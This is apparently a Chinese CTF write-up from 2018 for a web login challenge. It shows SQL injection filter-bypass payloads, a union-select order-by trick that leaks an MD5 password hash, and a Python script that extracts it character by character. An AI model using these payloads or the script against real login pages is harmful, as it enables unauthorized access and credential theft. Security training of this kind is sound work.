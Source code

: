 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)
根据提示要拿到flag就必须要先找到username。
开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的
根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)
然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些
得到两个重要的提示。
![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的
数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
当插入的内容小于password的值会返回username的值
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
根据上面测试的情况用python写脚本如下
``` python
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)
[MD5j解码](http://www.cmd5.com/)后得到flag

